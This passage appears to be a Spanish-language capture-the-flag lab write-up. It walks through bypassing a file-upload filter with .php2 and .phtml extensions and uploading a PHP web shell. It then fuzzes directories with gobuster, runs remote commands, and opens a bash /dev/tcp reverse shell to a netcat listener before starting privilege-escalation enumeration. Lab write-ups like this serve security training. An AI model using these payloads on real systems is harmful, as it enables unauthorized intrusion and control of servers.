 Intentamos subir el archivo e interceptamos la peticion para despues mandarla al modo repeater
**Nota** no tuvimos que realizar tecnicas avanzadas, con esta extension nos permite subirlo
```bash
Content-Disposition: form-data; name="archivo"; filename="cmd.php2"
Content-Type: application/x-php

<?php
  system($_GET["cmd"]);
?>
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que logramos cargar un archivo en el servidor devemos verificar donde es que se cargan para poder acceder a el y poder ejecutralo ya que nos permite realizar una llamada a nivel de sistema para ejecutar un comando.
**Fuzzeando** por directorios encontramos la ruta posible donde se cargan archivos
```bash
gobuster dir -u http://dev.hidden.lab/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Nota** el que se logre subir no quiere decir que se ejecute, Tendremos que pobar hasta que una logre ejecutar codigo **php** y con este funciona
```bash
Content-Disposition: form-data; name="archivo"; filename="cmd.phtml
```

### Ejecucion del Ataque
Logramos ejecucion remota de comandos
```bash
# Comandos para explotación
http://dev.hidden.lab/uploads/cmd.phtml?cmd=whoami
```

### Intrusion
Modo escucha que nos permite ganar aceso al targen
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
http://dev.hidden.lab/uploads/cmd.phtml?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l # No report nada
find / -perm -4000 2>/dev/null # No reporta nada
```
